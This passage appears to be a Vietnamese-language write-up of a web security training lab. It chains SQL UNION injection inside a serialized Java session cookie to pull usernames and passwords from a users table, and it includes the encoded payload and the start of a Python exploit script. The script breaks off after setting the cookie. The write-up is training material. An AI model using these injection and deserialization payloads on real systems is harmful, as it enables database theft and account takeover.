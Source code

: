Thu được một cột có tên username, tìm kiếm tên cột khác username, payload:

```sql!
' UNION SELECT NULL, NULL, NULL, CAST(column_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' AND column_name NOT IN ('username')--
```

![image](https://hackmd.io/_uploads/ByDkjYxo6.png)

Thu được cột có tên password. Tìm kiếm giá trị username, payload:

```sqp!
' UNION SELECT NULL, NULL, NULL, CAST(username || '~' || password AS INTEGER), NULL, NULL, NULL, NULL FROM users --
```

mình thực hiện nối chuỗi khi thi kết quả username và password từ bảng users

![image](https://hackmd.io/_uploads/ry1xnKeop.png)

- được

```!
rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAcycgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QodXNlcm5hbWUgfHwgJ34nIHx8IHBhc3N3b3JkIEFTIElOVEVHRVIpLCBOVUxMLCBOVUxMLCBOVUxMLCBOVUxMIEZST00gdXNlcnMgLS0%3D
```

![image](https://hackmd.io/_uploads/SkZk3tgj6.png)

Đăng nhập bằng tài khoản **administrator~vkjb41pn5ustgu0pc9ld** tìm được và xóa user carlos để solve challenge.

![image](https://hackmd.io/_uploads/SktinKlop.png)

![image](https://hackmd.io/_uploads/By7hhKlsp.png)

mình đã viết srcipt khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0ae0004d04a306e580e085c100660017.web-security-academy.net'

session = requests.Session()

data_login = {
    'username' : 'wiener',
    'password' : 'peter',
}
response = session.post(
    url + "/login",
    data=data_login,
    verify=False,
)

payload = 'rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAcycgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QodXNlcm5hbWUgfHwgJ34nIHx8IHBhc3N3b3JkIEFTIElOVEVHRVIpLCBOVUxMLCBOVUxMLCBOVUxMLCBOVUxMIEZST00gdXNlcnMgLS0%3D'
cookies = {
    'session' : payload,
}
```